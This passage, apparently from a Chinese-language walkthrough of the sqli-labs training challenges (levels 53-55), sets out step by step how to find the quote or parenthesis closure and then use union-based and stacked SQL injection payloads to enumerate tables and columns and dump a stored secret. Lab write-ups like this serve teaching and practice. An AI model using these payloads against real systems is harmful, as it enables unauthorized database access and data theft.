 ?sort=1';create table less53 like users--+



## 0X3ALess-54

表名和密码每十次尝试后就强制进行更换

首先判断闭合

?id=1' --+  //正常

?id=1'   //无回显 

判断单引号闭合

?id=-1' union select 1,2,3--+判断显示位

![image-20201112165308431](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201112165308431.png)

union联合查询

?id=-1' union select 1,2,database()--+

![image-20201112165655446](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201112165655446.png)

?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges'--+

![image-20201112165827512](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201112165827512.png)

获取到表名GNDVE6NJTD

?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='challenges' and table_name='GNDVE6NJTD'--+

![image-20201112170000583](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201112170000583.png)

获取到 字段id,sessid,secret_X9Y3,tryy

?id=-1' union select 1,2,(select group_concat(secret_X9Y3) from challenges.GNDVE6NJTD)--+

![image-20201112170427948](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201112170427948.png)

获取到数据bTDwbx0gNAv1PuHChSZn4igS

![image-20201112170507777](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201112170507777.png)



## 0X3BLess-55

相比54关  55更换了闭合方式

![image-20201112172645791](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201112172645791.png)

通过测试?id=1) --+ 与?id=1) 结果不同判断）闭合
